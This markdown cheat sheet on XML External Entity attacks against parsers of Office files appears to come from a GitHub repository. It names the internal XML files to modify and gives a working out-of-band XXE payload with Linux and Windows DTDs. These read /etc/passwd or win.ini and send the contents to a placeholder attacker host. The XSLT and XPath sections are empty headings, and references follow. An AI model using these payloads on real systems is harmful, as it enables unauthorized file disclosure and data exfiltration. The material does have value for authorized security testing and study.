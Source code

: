 # XML External Entity vulnerability
XML External Entity injection is a type of attack against web application that parses XML files (docx, pptx, xlsx etc.). There are three common attacks against XML parser:
- [XML data injection (XXE)](#xml-data-injection)
- [Extensible Stylesheet Language Transformations injection (XSLT)](#extensible-stylesheet-language-transformation)
- [XPath/XQuery injection](#xpath-injection)

## XML data injection
XML entity:
- xlsx: `/xl/worksheets/sheet1.xml`, `/xl/workbook.xml`
- docx: `/word/document.xml`
- pptx: `/ppt/presentation.xml`

Payload:
```
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://xxx.xxx.xxx.xxx/white-cat.dtd">
%sp;
%param1;
%exfil;
]>
```
DTD (Linux):
```
<!ENTITY % white-cat SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://xxx.xxx.xxx.xxx/?%white-cat;'>">
```
DTD (Windows):
```
<!ENTITY % white-cat SYSTEM "file://C:/Windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://xxx.xxx.xxx.xxx/?%white-cat;'>">
```
Sample response with a content of `win.ini` file:
![Logo](https://www.pwncave.net/images/XXE_winini.PNG)

## Extensible Stylesheet Language Transformation

## XPath injection

### References
- https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf
- https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf
- Black Hat EU 2013 - XML Out-of-Band Data Retrieval: https://www.youtube.com/watch?v=eBm0YhBrT_c
- https://2017.zeronights.org/wp-content/uploads/materials/ZN17_yarbabin_XXE_Jedi_Babin.pdf

